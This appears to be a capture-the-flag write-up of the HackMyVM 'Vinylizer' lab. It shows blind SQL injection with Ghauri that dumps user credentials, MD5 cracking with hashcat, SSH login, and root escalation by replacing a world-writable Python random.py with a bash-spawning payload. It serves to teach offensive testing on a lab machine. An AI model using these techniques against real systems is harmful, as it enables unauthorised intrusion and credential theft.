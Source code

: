 ```yaml
---
title: "HackMyVM - Vinylizer"
description: ""
author: raylex
tags: SQLI PYTHON BLIND-SQLI
categories: CTF HACKMYVM
date: 2024-02-02
---
```

![vinylizer](/assets/images/vinylizer.png)
## Enumeration
I'll begin with a Nmap scan
```shell
nmap -SCV 192.168.56.4

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-02 09:55 WAT
Nmap scan report for 192.168.56.4
Host is up (0.0012s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f8:e3:79:35:12:8b:e7:41:d4:27:9d:97:a5:14:b6:16 (ECDSA)
|_  256 e3:8b:15:12:6b:ff:97:57:82:e5:20:58:2d:cb:55:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Vinyl Records Marketplace
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.57 seconds
```
### 80 - HTTP
Inputting `admin'` as the username to test for SQLi returns internal server error which suggests the target may be vulnerable to [blind sql injection](https://portswigger.net/web-security/sql-injection/blind). 
This type of SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
## Foothold
### Blind SQLi using Ghauri
I'll fire up [Ghauri](https://github.com/r0oth3x49/ghauri), copy the login HTTP request to a text file by intercepting the request with [Caido - A lightweight web security auditing toolkit](https://caido.io/), and begin testing  
![caido](/assets/images/vinylyzer-caido-request.png){: w="700" h="400" }  
The first thing i have to do is confirm the target is vulnerable to SQLi.  
I'll use the `--dbs` option which will perform sql injecton tests on the target and attempt to enumerate available databases, i'll also use the option `-r` to specify the request file `req.txt` i created earlier and option `-p` to specify the parameter i want to test which is username
```shell
ghauri -r req.txt -p username --dbs
```
The test is successful and i can see that the target is indeed vulnerable.  
The backend DBMS is identified to be `MySQL` 
![ghauri](/assets/images/vinylyzer-ghauri-sqli.png){: w="700" h="400" }  
Further down i can see a list of available databases
```shell
available databases [3]:
[*] performance_schema
[*] information_schema
[*] vinyl_marketplace
```
The `performance_schema` and `information_schema` databases are standard MySQL dbs, so the target db is `vinyl_marketplace`.  
I'll list the tables available on the database using option `--tables`, option `--dbms` to specify the target's DBMS and option `-D` to specify the database
```shell
ghauri -r req.txt -p username --dbms mysql -D vinyl_marketplace --tables

Database: vinyl_marketplace
[1 tables]
+-------+
| users |
+-------+
```
The target db contains a single table `users`, i'll dump the table using the option `--dump` and specify the target table with the option `-T`
```shell
ghauri -r req.txt -p username --dbms mysql -D vinyl_marketplace -T users --dump

Database: vinyl_marketplace
Table: users
[2 entries]
+----+-----------+----------------------------------+----------------+
| id | username  | password                         | login_attempts |
+----+-----------+----------------------------------+----------------+
| 1  | shopadmin | 9432522ed1a8fca612b11c3980a031f6 | 0              |
| 2  | lana      | password123                      | 0              |
+----+-----------+----------------------------------+----------------+
```
The `users` table contains 2 rows; `shopadmin` and `lana` .   
Attempt to login into the web app is successful for both users but it yields nothing.  
The shopadmin's password is an md5 hash, i'll crack this hash using [hashcat](https://hashcat.net/hashcat/) tool and [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) wordlist
```shell
hashcat -a 0 -m 0 "9432522ed1a8fca612b11c3980a031f6" ./rockyou.txt

Cracked: addicted2vinyl
```
>-a 0 -> straight attack mode  
>-m 0 -> md5 hash mode

I'll login as `shopadmin` via `SSH` and retrieve the user flag
```shell
shopadmin@vinylizer:~$ cat user.txt
I_******L5
```
## Privilege Escalation 
- - -
Listing the sudo privileges, i see that user `shopadmin` may run command `/usr/bin/python3 /opt/vinylizer.py` as root without password  
![sudoers](/assets/images/vinylyzer-sudoers.png){: w="700" h="400" }  
### Analysis of /opt/vinylizer.py
The program seems to be a simple command-line tool for managing a collection of vinyl records, allowing users to add, delete, list, and randomize albums and their sides. The data is stored in a JSON file `config.json`. 
The program imports two modules `json` and `random`.  I'll check where these modules are loaded from 
```python
shopadmin@vinylizer:~$ python3
Python 3.10.12 (main, Nov 20 2023, 15:14:05) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import json; import random; json; random
<module 'json' from '/usr/lib/python3.10/json/__init__.py'>
<module 'random' from '/usr/lib/python3.10/random.py'>
>>>
```
`json` is loaded from `/usr/lib/python3.10/json/__init__.py` and only the root user has write access to it,  
![json.py](/assets/images/vinylyzer-json.png){: w="700" h="400" }  
`random` is loaded from `/usr/lib/python3.10/random.py` and all users have write access to it.  
![random.py](/assets/images/vinylyzer-random.png){: w="700" h="400" }  
This basically means if i  put a malicious code in `/usr/lib/python3.10/random.py` run `sudo /usr/bin/python3 /opt/vinylizer.py`, the malicious `random.py` will be executed as the root user when python attempts to import the module
### Shell as root
I'll make a backup of `/usr/lib/python3.10/random.py`
```shell
cp /usr/lib/python3.10/random.py /home/shopadmin
```
...and modify the the original code into:
```python
import pty
pty.spawn("/bin/bash")
```
Now all i have to do is run the `/opt/vinylizer.py` program with sudo  
![root-shell](/assets/images/vinylyzer-root.png){: w="700" h="400" }  
...and retrieve root flag
```shell
root@vinylizer:/home/shopadmin# cat /root/root.txt
4U*****L3
```
And that's it! I hope it helps, thanks for reading!!!